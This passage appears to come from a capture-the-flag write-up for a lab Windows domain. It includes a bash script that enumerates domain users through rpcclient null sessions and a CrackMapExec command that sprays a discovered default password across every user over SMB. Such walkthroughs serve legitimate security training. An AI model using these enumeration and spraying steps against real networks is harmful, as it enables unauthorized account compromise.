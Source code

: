 - **-U** for username
- **-N** for don't ask for password

Getting each user information one by one was quite time consuming, i decided to write a bash script which will automate this process

```bash
#!/bin/bash
# Define the file containing the list of usernames
USER_LIST_FILE="users1.txt"
# Define the server IP address or hostname
SERVER="10.129.23.166"
# Define the username for authentication
USERNAME="" # Replace with your actual username
# Check if the file exists
if [[ ! -f "$USER_LIST_FILE" ]]; then
  echo "User list file $USER_LIST_FILE does not exist."
  exit 1
fi
# Read each username from the file and query it
while IFS= read -r username; do
  # Skip empty lines and comments (lines starting with #)
  if [[ -z "$username" || "$username" =~ ^# ]]; then
    continue
  fi
  # Query the user using rpcclient
  echo "Querying user: $username"
  rpcclient -U "$USERNAME" -N "$SERVER" -c "queryuser $username"
  # Check if rpcclient was successful
  if [[ $? -ne 0 ]]; then
    echo "Failed to query user: $username"
  fi
done < "$USER_LIST_FILE"
```

In Marko Users Description, i found the default password for the **marko** user. 

<img  alt="Pasted image 20240729035250" src="https://github.com/user-attachments/assets/accfc1cd-551f-482d-aa19-7e4ee88d96d9">

## Password Spraying

Password spraying is **a cyberattack tactic that involves a hacker using a single password to try and break into multiple target accounts**. It's a type of brute-force attack. Password spraying is an effective tactic because it's relatively simple to carry out, and users often have easy-to-guess passwords.

Now we have an valid password, let's try to spray it on all the users to find out if any of the user have this password. We will be using tool called CrackmapExec an command line tool.

```bash
$ cme smb 10.129.23.166 -u users1.txt -p 'Welcome123!' -d megabank.local --continue-on-success
```

- **smb** to define protocol
- **-u** to define user
- **-p** to define Password
- **-d** for domain
- **--continue-on-success** to continues authentication attempts even after successes 
